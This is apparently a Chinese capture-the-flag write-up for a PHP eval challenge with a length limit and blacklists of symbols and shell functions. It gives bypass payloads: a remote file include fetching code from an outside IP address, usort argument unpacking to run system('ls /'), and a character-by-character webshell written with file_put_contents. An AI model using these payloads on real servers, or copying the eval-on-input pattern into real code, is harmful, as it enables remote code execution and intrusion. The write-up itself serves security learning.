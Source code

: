 ```php


error_reporting(0);
show_source(__FILE__);
$code=$_REQUEST['code'];

$_=array('@','\~','\^','\&','\?','\<','\>','\*','\`','\+','\-','\'','\"','\\\\','\/'); 
$__=array('eval','system','exec','shell_exec','assert','passthru','array_map','ob_start','create_function','call_user_func','call_user_func_array','array_filter','proc_open');
$blacklist1 = array_merge($_);
$blacklist2 = array_merge($__);

if (strlen($code)>16){
    die('Too long');
}

foreach ($blacklist1 as $blacklisted) { 
    if (preg_match ('/' . $blacklisted . '/m', $code)) { 
        die('WTF???'); 
    } 
} 

foreach ($blacklist2 as $blackitem) {
    if (preg_match ('/' . $blackitem . '/im', $code)) {
        die('Sry,try again');
    }
}

@eval($code);
?> 
```
**方法一**
存在远程文件包含，直接在服务器上写一句话即可
`?code=include$_GET[1];&1=http://47.101.145.94/abc.txt`
![](/bmth_blog/images/pasted-182.png)

**方法二**
在PHP中可以使用`func(...$arr)`这样的方式，将`$arr`数组展开成多个参数，传入func函数
```php
?1[]=test&1[]=system('ls /');&2=assert
POST
code=usort(...$_GET);
```
![](/bmth_blog/images/pasted-183.png)
**方法三**
有一种思路，利用file_put_contents可以将字符一个个地写入一个文件中，大概请求如下：
```php
?code=$_GET[a](N,a,8);&a=file_put_contents
```
>file_put_contents的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串'N'；第二个参数是要写入的数据，a也被转换成字符串'a'；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。
除了file_put_contents，error_log函数效果也类似。
但这个方法有个问题，就是file_put_contents第二个参数如果是符号，就会导致PHP出错，比如`code=$_GET[a](N,<,8);&a=file_put_contents`，但如果要写webshell的话，`<`等符号又是必不可少的。每次向文件'N'中写入一个字母或数字，最后构成一个base64字符串，再包含的时候使用php://filter对base64进行解码即可。
